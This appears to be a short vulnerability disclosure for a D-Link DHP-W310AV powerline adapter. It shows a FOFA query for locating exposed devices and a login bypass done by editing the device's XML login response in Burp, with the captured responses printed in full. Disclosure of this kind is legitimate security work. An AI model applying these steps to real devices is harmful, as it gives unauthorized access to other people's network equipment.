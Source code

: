 ## supplier
[support.dlink.com](https://support.dlink.com/)
## describe
We can use fofa to find the asset of this device.
app="D_Link-无线电力猫"
![](img/image-20250127150542675.png)
We need to capture the login packet when entering the password, and then intercept the return packet.(Burp:Reponse to the request)
```
HTTP/1.1 200 OK
Server: Linux, HTTP/1.1, DHP-W310AV Ver 1.04
Date: Fri, 28 Jan 2000 22:00:30 GMT
Connection: close
Content-Type: text/xml
Content-Length: 168

<?xml version="1.0" encoding="utf-8"?>
<report>
	<RESULT>INVALIDPASSWD</RESULT>
	<REASON></REASON>
	<AUTHORIZED_GROUP>-1</AUTHORIZED_GROUP>
	<PELOTA></PELOTA>
</report>
```
I need to change INVALIDPASSWD to SUCCESS and -1 to 0.
```
HTTP/1.1 200 OK
Server: Linux, HTTP/1.1, DHP-W310AV Ver 1.04
Date: Fri, 28 Jan 2000 22:00:30 GMT
Connection: close
Content-Type: text/xml
Content-Length: 168

<?xml version="1.0" encoding="utf-8"?>
<report>
	<RESULT>SUCCESS</RESULT>
	<REASON></REASON>
	<AUTHORIZED_GROUP>0</AUTHORIZED_GROUP>
	<PELOTA></PELOTA>
</report>
```
Forward
![](img/image-20250127150952119.png)
In the end, I was not authorized to access the backend.
